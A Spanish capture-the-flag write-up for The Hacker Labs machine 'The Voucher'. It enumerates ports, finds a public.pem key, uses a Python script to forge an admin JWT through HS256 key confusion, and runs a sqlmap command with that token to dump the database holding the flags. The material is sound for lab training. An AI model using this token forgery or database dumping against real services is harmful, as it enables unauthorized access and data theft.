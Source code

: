 # 🖥️ Write-Up: [THE VOUCHER](https://labs.thehackerslabs.com/machine/134)

## 📌 Información General
    - Nombre de la máquina: The Voucher
    - Plataforma: The Hacker Labs
    - Dificultad: Avanzado
    - Creador: K0B4KS
    - OS: Linux
    - Objetivos: Obtención de la Flag de usuario y de root

---

## 🔍 Enumeración

La máquina The Voucher posee la IP 10.0.5.17.

### Descubrimiento de Puertos

Realizamos un reconocimiento de todos los puertos de la máquina y nos quedamos únicamente con aquellos que están abiertos.

![allPorts](screenshots/allPorts.png)

La máquina tiene abiertos los `puertos 22, 80 y 8080`, así que vamos a proceder a realizar un escaneo de los servicios y las versiones de ellos que se encuentran en ejecución en esos puestos.

![target](screenshots/target.png)

Como no disponemos de credenciales y el puerto 22 no es vulnerable, vamos a proceder con el análisis de los puertos 80 y 8080.


#### Puerto 80

Nos encontramos con la página por defecto de Apache. Tras buscar subdirectorios y revisar el código fuente no encontramos nada.

Así que pasamos al siguiente puerto.

#### Puerto 8080

Aquí vemos la web de una academia de ciberseguridad. Tras revisarla, vemos que tenemos un index, un panel de login (login.php) y un panel de búsqueda de cursos (courses.php).

![home](screenshots/home.png)

Vamos a revisar el panel de búsqueda de cursos. Este nos exige un token para poder realizar la búsqueda, como no disponemos de uno, vamos a probar el panel de login.

![courses](screenshots/courses.png)

Tras intentar diferentes técnicas de bypass, sql injections, nosql injections,... en el panel de login, no hemos obtenido ningún resultado. Por lo tanto, vamos a utilizar la herramienta de wfuzz para enumerar subdirectorios de la web.

![subdirectorios](screenshots/directorio-keys.png)

Hemos encontrado un directorio `keys`, por su nombre, es posible que contenga algún tipo de llave, con esta idea en mente realizamos una enumeración de archivos en su interior con las extensiones de pem, pub, cert.

![files in keys](screenshots/public_keys.png)

Y como resultado de la búsqueda obtenemos un archivo `public.pem`, así que procedemos a ingresar en nuestro navegador la url `http://10.0.5.17:8080/keys/public.pem` para descargarlo, una vez hecho vemos que el archivo contiene una llave pública.


## 🔥Explotación

Con este llave vamos a intentar falsificar un Json Web Token esperando que el servidor esté mal configurado y únicamente firme el token con la llave pública que hemos encontrado. 

Para ello, usamos el siguiente script de python3: 

```python
import json, base64, hmac, hashlib

# Functions
def b64url_encode(data):
    s = base64.urlsafe_b64encode(data).rstrip(b"=")
    return s.decode("ascii")

def b64url_encode_json(obj):
    j = json.dumps(obj, separators=(',', ':'), sort_keys=True)
    return b64url_encode(j.encode('utf-8'))

def hmac_sha256(key, msg):
    return hmac.new(key, msg, hashlib.sha256).digest()

def build_token(header_obj, payload_obj, key_bytes):
    encoded_header = b64url_encode_json(header_obj)
    encoded_payload = b64url_encode_json(payload_obj)
    signing_input = (encoded_header + "." + encoded_payload).encode('ascii')
    sig = hmac_sha256(key_bytes, signing_input)
    encoded_sig = b64url_encode(sig)
    return f"{encoded_header}.{encoded_payload}.{encoded_sig}"


# Open public.pem
with open("public.pem", "rb") as file:
        key_bytes=file.read()

# Create JWT
header = {"alg": "HS256", "typ": "JWT"}

payload = {"username": "admin"},

token= build_token(header,payload, key_bytes)

print("Token--> " + token)
```

Este script nos devuelve este token --> `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.W3sidXNlcm5hbWUiOiJhZG1pbiJ9XQ.p5xuSYdRW7kENc1nzySrtNorfnIAzOnEA5WgixfYHOY`

Ahora vamos a probar el token. Pero antes, revisamos el código fuente de courses.php para ver como y hacia donde se tramita la petición, ya que su función de búsqueda nos exigía un token.

![source](screenshots/api-courses.png)

Vemos que la petición se tramita mediante el método `GET` a `/api/courses.php` y le pasa el parámetro "`q`", así que vamos a usar curl para mandarle una petición a ese endpoint con el token generado y ver la respuesta.

![curl](screenshots/curl-courses.png)

El token funciona. Además, observamos un `sql_errors` en el json de la respuesta, así que podemos intentar poner una comilla al final del parámetro para ver su comportamiento y verificar si es vulnerable a una `SQL Injection`.

![slq_error](screenshots/curl-error_sql.png)

Y efectivamente, parece ser vulnerable. Por lo tanto, vamos a proceder a automatizar la inyección usando la herramienta de sqlmap sobre ese endpoint y pasándole el token generado.

```bash
sqlmap --url "http://10.0.5.17:8080/api/courses.php?q=1" --headers="Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.W3sidXNlcm5hbWUiOiJhZG1pbiJ9XQ.p5xuSYdRW7kENc1nzySrtNorfnIAzOnEA5WgixfYHOY" --dump --batch 
```

Tras filtrarnos la base de datos, podemos ver que las `flags de usuario` y de `root` están en una tabla.

![flags](screenshots/flags.png)
